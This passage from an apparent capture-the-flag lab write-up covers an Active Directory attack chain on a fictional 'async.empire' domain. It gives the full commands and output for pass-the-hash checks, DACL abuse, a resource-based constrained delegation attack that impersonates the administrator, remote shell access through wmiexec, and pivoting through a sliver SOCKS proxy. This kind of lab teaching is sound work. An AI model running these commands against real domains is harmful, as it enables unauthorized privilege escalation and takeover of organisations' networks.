        cloudap :
```

### Enumerating ACLs

After discovering the credentials for the `Castle_Knight_21` user, we can verify them by running them against the Domain Controller.

```
proxychains -q nxc smb King-DC.async.empire -u 'Castle_Knight_21' -H '8d987bd5a242dcb12bf5a18a8cb68554'
SMB         10.2.30.51      445    KING-DC          [*] Windows Server 2022 Build 20348 x64 (name:KING-DC) (domain:async.empire) (signing:True) (SMBv1:False) 
SMB         10.2.30.51      445    KING-DC          [+] async.empire\Castle_Knight_21:8d987bd5a242dcb12bf5a18a8cb68554 
```

Next, we can use `bloodyAD` to enumerate objects that we have write access to:

```
proxychains -q bloodyAD --host 'King-DC.async.empire' -u 'Castle_Knight_21' -p ':8d987bd5a242dcb12bf5a18a8cb68554' get writable         

...

distinguishedName: CN=WESTERN-OUTPOST,OU=Servers,DC=async,DC=empire
permission: CREATE_CHILD; WRITE
OWNER: WRITE
DACL: WRITE

...
```

### Resource-Based Constrained Delegation Attack

We find that we have `WRITE` access to the `Domain Access Control Lists (DACLs)` for `western-outpost`, allowing us to modify access control settings on the machine. To avoid disrupting other operations, we'll create a new domain computer (which is also a domain account) and assign the ACLs there.

```
proxychains -q impacket-addcomputer 'async.empire'/'Towns_Merchant_7':'Hq7L2wPzX9' -computer-name 'GATARI' -computer-pass 'P@ssw0rd'                
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account GATARI$ with password P@ssw0rd.
```

Next, we can grant `GATARI$` full control (`GenericAll`) over `WESTERN-OUTPOST`

```
proxychains -q impacket-dacledit -action 'write' -rights 'FullControl' -principal 'GATARI$' -target 'WESTERN-OUTPOST$' 'async.empire'/'Castle_Knight_21' -hashes ':8d987bd5a242dcb12bf5a18a8cb68554'        

[*] DACL backed up to dacledit-20250509-045959.bak
[*] DACL modified successfully!                               
```

With full access to the machine, we can simply modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on `WESTERN-OUTPOST$` to allow `GATARI$` to impersonate any user to the machine. This is an attack known as: [Resource-Based Constrained Delegation](https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd).

```
proxychains -q impacket-rbcd -delegate-from 'GATARI$' -delegate-to 'WESTERN-OUTPOST$' -action 'write' 'async.empire'/'GATARI$':'P@ssw0rd'                                                   
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Delegation rights modified successfully!
[*] GATARI$ can now impersonate users on WESTERN-OUTPOST$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     GATARI$      (S-1-5-21-3324594629-4204122608-2512478463-1283)
```

Now that our `GATARI$` account has been granted delegation rights on `WESTERN-OUTPOST`, we can request a Service Ticket (ST) for any user (including `Administrator`) to any service on `WESTERN-OUTPOST` - similar to that of Constrained Delegation.

A list of default (and important) SPNs can be found: [here](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/silver-ticket.html#). For this writeup, we'll be using the `cifs` SPN, which is used for the SMB service which allows us to access remote shares and interact with services.

```
proxychains -q impacket-getST -spn 'cifs/WESTERN-OUTPOST.async.empire' -impersonate 'administrator' 'async.empire'/'GATARI$':'P@ssw0rd'             
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_WESTERN-OUTPOST.async.empire@ASYNC.EMPIRE.ccache
```

### Accessing WESTERN-OUTPOST via Pivot

Since `WESTERN-OUTPOST` is only accessible via our newly-acquired `SOUTHERN-TOWER` session, we can use our sliver session to proxy the connection to `WESTERN-OUTPOST` using the `socks5` command. This will allow us to connect to `WESTERN-OUTPOST` via the jump host.

```
sliver (initial) > socks5 start --port 1082

[*] Started SOCKS5 127.0.0.1 1082  
⚠  In-band SOCKS proxies can be a little unstable depending on protocol
```

As our previous SSH tunnel is still active (and using SOCKS4), we'll need to modify our `/etc/proxychains4.conf` to use `SOCKS5`, set the `proxy_dns` option to `true`, and modify the connection port to `1082` instead of `1081`.

```
socks5 127.0.0.1 1082 X X
```

> `X` can be empty as `sliver` does not set any authentication by default.

Using the acquired `cifs@western-outpost` ticket, we can now access the `WESTERN-OUTPOST` machine using `impacket-wmiexec` to execute commands on the remote machine - and obtain the third flag!

```
export KRB5CCNAME='administrator@cifs_WESTERN-OUTPOST.async.empire@ASYNC.EMPIRE.ccache'
proxychains -q impacket-wmiexec -k -no-pass WESTERN-OUTPOST.async.empire                                                              
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
Western-Outpost

C:\>whoami
async\administrator

C:\>type C:\users\administrator\desktop\flag3.txt
ccca789d08f5872e6c892d49714f3a54
```

Similarly, the next machine is only accessible via the `WESTERN-OUTPOST` machine, so you will need to obtain a `sliver` pivot session on `WESTERN-OUTPOST`. This will not be shown in the writeup, but [these docs](https://sliver.sh/docs?name=Pivots) should help.